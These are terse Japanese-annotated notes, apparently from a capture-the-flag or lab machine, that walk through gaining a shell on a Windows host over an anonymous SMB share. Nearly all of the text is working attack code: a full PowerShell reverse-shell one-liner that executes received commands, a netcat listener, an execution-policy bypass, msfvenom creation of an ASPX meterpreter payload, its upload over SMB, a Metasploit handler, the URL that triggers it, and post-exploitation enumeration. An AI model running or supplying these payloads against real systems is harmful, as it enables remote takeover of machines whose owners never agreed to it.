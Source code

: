 # 📦 PowerShell リバースシェルペイロード（試行）
#（SMB上に配置）
$client = New-Object System.Net.Sockets.TCPClient("10.10.65.89",12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}

# リッスン側
nc -lvnp 12345

# 実行（失敗）
powershell -ExecutionPolicy Bypass -File "\\10.10.196.72\nt4wrksv\aaa.ps1"

# 🧨 ASPX リバースシェル作成
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.65.89 LPORT=12345 -f aspx -o shell.aspx

# SMBにアップロード
smbclient //10.10.196.72/nt4wrksv -U anonymous
put shell.aspx

# Metasploit で待受
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.10.65.89
set LPORT 12345
run

# 実行トリガ
http://10.10.196.72/nt4wrksv/shell.aspx

# Meterpreter内での操作
shell
whoami /all
dir C:\Users
